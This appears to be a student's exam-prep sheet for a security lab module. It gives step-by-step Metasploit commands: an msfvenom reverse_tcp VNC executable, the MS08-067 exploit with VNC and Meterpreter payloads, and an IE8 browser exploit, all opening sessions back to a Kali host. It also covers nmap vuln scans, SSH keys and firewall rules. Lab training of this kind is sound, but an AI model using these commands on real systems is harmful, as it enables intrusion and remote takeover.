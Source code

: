 # Supplementary Preparation 

> For Amanjeet Kaur

## Module 4

* For Kali, always login as root.

### Question 1

For all Windows, go to Network and Sharing Centre, then Properties, then IPV4, then Properties, and change accordingly.

For all Linux, either go to the settings for ```ens33``` , or use command line:

```bash
ip a a 192.168.1.?/24 dev eth0
```

If you are using Metasploitable with msfadmin, use ```sudo``` before the command

### Question 2 (Kali)

Use ```nmap ``` to scan your Target IP Address:

```bash
nmap -script vuln (Target IP Address)
```

For the output, try to find what is "Vulnerable", or just use:

* WIndows 10: 0
* WIndows 7: 1
* Windows XP: 3

(Not guaranteed)

### Question 3 (Kali + One Target)

No matter which exploit is assigned, open MSF with the icon on the dock:

#### Windows 10

In bash, generate the exe hook:

```bash
msfvenom -p windows/vncinject/reverse_tcp --platform windows -f exe
LHOST="(Kali IP)" LPORT=444 -o /root/Desktop/Cats.exe
```

Note ```Cats.exe``` can be named as something else, change accordingly.

Drag it to Windows 10 via Mac Desktop if required.

Then in MSF window, enter:

```bash
use multi/handler
set PAYLOAD windows/vncinject/reverse_tcp
set LPORT 444
set LHOST (Kali IP)
set viewOnly false
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

#### Windows XP

##### VNC Injection

In MSF window, enter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set rhost (IP of XP)
set lhost (Kali IP)
set viewOnly false
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

##### Meterpreter

In MSF window, enter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set rhost (IP of XP)
set lhost (Kali IP)
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

#### Windows 7

Find the URIpath in the paper, like "catvideos".

In MSF window, enter:

```bash
use exploit/windows/browser/ms13_055_canchor
set payload windows/meterpreter/reverse_tcp
set lhost (Kali IP)
set SRVHost (Kali IP)
set SRVPort 80
set URIpath (Path in Paper)
set target 2
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

Then put the link in IE8 of WIndows 7:

```bash
https://(IP of Kali)/(URIpath)
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter after input of the link.

### Question 4 (CentOS)

For this question, look some given information in your paper first:

* Keypair Name: ```~/.ssh/id_(something)```
* Passphrase
* Alias for a specific machine: like ```client1```
* Preferred Login User: like ```student```

For keypair generation, go to CentOS terminal:

```bash
ssh-keygen -t ed25519 -f ~/.ssh/id_(something)
```

You will be asked to give Passphrase, give it and confirm it:

```bash
Enter a passphrase:
Enter again to confirm:
```

Then, for adding alias for a specific host: 

```bash
nano ~/.ssh/config
```

which will open config file in nano, in nano, write:

```bash
Host (Alias)
	User (User Name)
	Hostname (IP of Target)
	IdentityFile ~/.ssh/id_(something)
	AddKeysToAgent yes
```

Then:

* Use Ctrl + x to exit
* Use Y to confirm save
* Use Enter to confirm quit

Lastly, change the config file's mode

```bash
chmod 0600 ~/.ssh/config
```

### Question 5

#### CentOS

Find in paper:

* What Protocol
* What Port Number
* What Operation need to be done: Block or Allow

In CentOS terminal, enter:

```bash
sudo iptables -A INPUT -p (Protocol) --dport (Port Number) -j (Action)
```

* Action is ACCEPT or DROP

#### Windows Server 2016

1. In Server Manger, go to "Tools", open "Windows Firewall and Security"
2. Click "Inbound Rules" in the hierarchy.
3. Click New Rules
4. In the new window, select "Custom Rules"
5. Leave "All Programs"
6. Select the Protocol you want to apply rules on, then in Local Ports, enter the port you want to apply to.
7. In Remote IP section, select to specify and add the IP of target you want to apply rules to.
8. Select the behaviour, like Block
9. Accept all domains
10. Give name and description in the paper, apply the rule.
